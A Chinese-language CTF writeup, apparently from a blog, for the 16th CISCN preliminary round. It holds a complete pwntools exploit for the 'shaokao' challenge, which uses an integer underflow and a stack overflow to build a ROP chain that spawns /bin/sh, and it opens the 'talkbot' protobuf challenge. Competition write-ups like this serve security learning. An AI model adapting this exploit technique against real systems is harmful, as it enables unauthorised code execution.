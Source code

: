 \---

title: 「PWN」【第十六届全国大学生信息安全竞赛 CISCN 初赛】Writeup WP 复现

tags: ['CTF', 'Pwn', 'writeup', 'wp']

authors: [nova]

\---

决赛要去 Singapore，所以没时间打，初赛看看。

初赛 Pwn 题不好评价，Pwn 的部分都挺简单的，但是给你套 RE/WEB/MISC 的壳，两天的 pwn3 都没出，也不太想看了。



## shaokao

签到题。负数溢出刷钱，栈溢出写 ROP。

```python
from pwn import *

context.log_level = 'DEBUG'
context.os = 'linux'
context.arch = 'amd64'
context.terminal = 'wt.exe bash -c'.split(' ')

sh = process('./shaokao')
elf = ELF('./shaokao')

pop_rdi_ret = 0x40264f
pop_rsi_ret = 0x40a67e
pop_rax_ret = 0x458827
pop_rdx_rbx_ret = 0x4a404b
syscall_ret = 0x4230a6
name = elf.sym['name']


sh.sendlineafter('来点啥？\n'.encode(), b'1\n1\n-100000\n4')
gdb.attach(sh, 'b *0x401F8D')
pause(4)
sh.sendlineafter('来点啥？\n'.encode(), b'5\n' + b'/bin/sh'.ljust(0x28, b'\x00') + 
                 p64(pop_rdi_ret) + p64(name) + p64(pop_rax_ret) + p64(59) + 
                 p64(pop_rsi_ret) + p64(0) + p64(pop_rdx_rbx_ret) + p64(0)*2 + p64(syscall_ret))
sh.interactive()
```



## talkbot

Protobuf 协议题，出题人很鸡贼的把 strings 里的 `protobuf` 改成了 `BINARYBF`

![image-20230528220826344](https://cdn.ova.moe/img/image-20230528220826344.png)
